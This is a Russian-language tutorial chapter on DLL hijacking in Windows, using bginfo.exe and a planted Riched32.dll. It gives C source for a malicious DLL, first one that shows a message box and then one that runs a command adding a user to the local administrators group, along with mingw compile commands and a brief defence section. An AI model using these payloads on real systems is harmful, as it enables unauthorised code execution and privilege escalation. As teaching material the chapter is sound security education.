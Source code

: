 \newpage
\subsection{6. DLL-hijacking в Windows. Простой пример на C.}

﷽

![DLL hijacking](./images/8/2021-09-25_12-09.png){width="75%"}

Что такое DLL-хайджекинг? DLL-хайджекинг - это техника, при которой мы заставляем легитимное/доверенное приложение загружать нашу вредоносную DLL.

В среде Windows, когда приложение или служба запускается, оно ищет ряд DLL, необходимых для корректной работы. Ниже представлена схема, показывающая порядок поиска DLL по умолчанию в Windows:    

![DLL hijacking](./images/8/dllhijack.png){width="75%"}

В этом посте мы рассмотрим только самый простой случай: каталог приложения доступен для записи. В этом случае любую DLL, загружаемую приложением, можно подменить, так как это первое место, где система ищет библиотеки.

### Шаг 1. Поиск процесса с отсутствующими DLL

Наиболее распространенный способ найти отсутствующие DLL в системе - это запустить [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) из Sysinternals, установив следующие фильтры:   

![procmon with filters](./images/8/2021-09-25_11-52.png){width="75%"}

Это позволит определить, какие DLL приложение пытается загрузить и путь, по которому оно их ищет:    

![procmon missing dlls](./images/8/2021-09-25_11-53.png){width="75%"}

В нашем примере процесс `Bginfo.exe` не находит несколько DLL, которые потенциально могут быть использованы для DLL-хайджекинга. Например, `Riched32.dll`.

### Шаг 2. Проверка прав доступа к папке

Давайте проверим права доступа к папке:
```cmd
icacls C:\Users\user\Desktop\
```

![folder permissions](./images/8/2021-09-25_14-42.png){width="75%"}

Согласно [документации](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls), у нас есть права на запись в эту папку.   

### Шаг 3. DLL-хайджекинг

Сначала запустим `bginfo.exe`:    
![run bginfo](./images/8/2021-09-25_11-54.png){width="75%"}

Следовательно, если я помещу DLL с именем `Riched32.dll` в тот же каталог, что и `bginfo.exe`, то при запуске инструмента выполнится и мой вредоносный код. Для простоты я создам DLL, которая просто отображает всплывающее сообщение:

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Теперь мы можем скомпилировать DLL (на машине атакующего):     

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![compile DLL](./images/8/2021-09-25_11-58.png){width="75%"}

Затем переименуем файл в `Riched32.dll` и скопируем нашу вредоносную DLL в `C:\Users\user\Desktop\`.   

![replace DLL](./images/8/2021-09-25_14-54.png){width="75%"}

Теперь запускаем `bginfo.exe`:   

![run process 1](./images/8/2021-09-25_12-00.png){width="75%"}

![run process 2](./images/8/2021-09-25_12-04.png){width="75%"}

Как видите, наша вредоносная логика выполнена:

Итак, `bginfo.exe` и вредоносная `Riched32.dll` находятся в одной папке **(1)**    
Затем запускаем `bginfo.exe` **(2)**    
Появляется всплывающее сообщение! **(3)**   

### Защита от атак

Самый простой способ защиты - убедиться, что все установленное программное обеспечение размещается в защищенном каталоге `C:\Program Files` или `C:\Program Files (x86)`. Если программное обеспечение не может быть установлено в эти каталоги, следующим шагом будет обеспечение того, чтобы только пользователи с административными правами могли создавать или изменять файлы в каталоге установки, предотвращая тем самым возможность атакующего развернуть вредоносную DLL и использовать эту уязвимость.

### Эскалация (повышение) привилегий

DLL-хайджекинг может использоваться не только для выполнения кода. Он также может применяться для получения устойчивости и повышения привилегий:    

Найти процесс, который выполняется/будет выполняться с другими привилегиями (горизонтальное/латеральное перемещение) и которому не хватает DLL.   

Иметь разрешение на запись в любую папку, где будет искаться DLL (обычно это каталог исполняемого файла или какая-либо папка внутри системного пути).   

Затем заменяем наш код:

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
    system("cmd.exe /k net localgroup administrators user /add");
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

```

*Для x64 компилируем с: x86_64-w64-mingw32-gcc evil.c -shared -o target.dll*          
*Для x86 компилируем с: i686-w64-mingw32-gcc evil.c -shared -o target.dll*      

Дальнейшие шаги аналогичны.

### Заключение

Но во всех случаях есть нюанс.   

Обратите внимание, что в некоторых случаях DLL, которую вы компилируете, должна экспортировать несколько функций, чтобы загружаться процессом-жертвой. Если эти функции отсутствуют, бинарный файл не сможет их загрузить, и эксплуатация завершится неудачей.    

Таким образом, компиляция пользовательских версий существующих DLL оказывается сложнее, чем может показаться на первый взгляд, так как многие исполняемые файлы не загрузят такие DLL, если в них отсутствуют процедуры или точки входа. Инструменты, такие как [DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html), могут использоваться для перечисления всех внешних имен функций и порядковых номеров легитимных DLL. Убедившись, что наша скомпилированная DLL следует тому же формату, мы максимизируем вероятность ее успешной загрузки.    

В будущем я постараюсь разобраться с этим и попробую создать скрипт на Python, который будет генерировать `.def`-файл из оригинальной целевой DLL.

[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)     
[icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)    
[DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html)      
[Module-Definition (def) files](https://docs.microsoft.com/en-us/cpp/build/reference/module-definition-dot-def-files?view=msvc-160&viewFallbackFrom=vs-2019)
[исходный код на Github](https://github.com/cocomelonc/2021-09-24-dllhijack)     

Я добавил уязвимый bginfo (версия 4.16) на github, если вы захотите поэкспериментировать.   
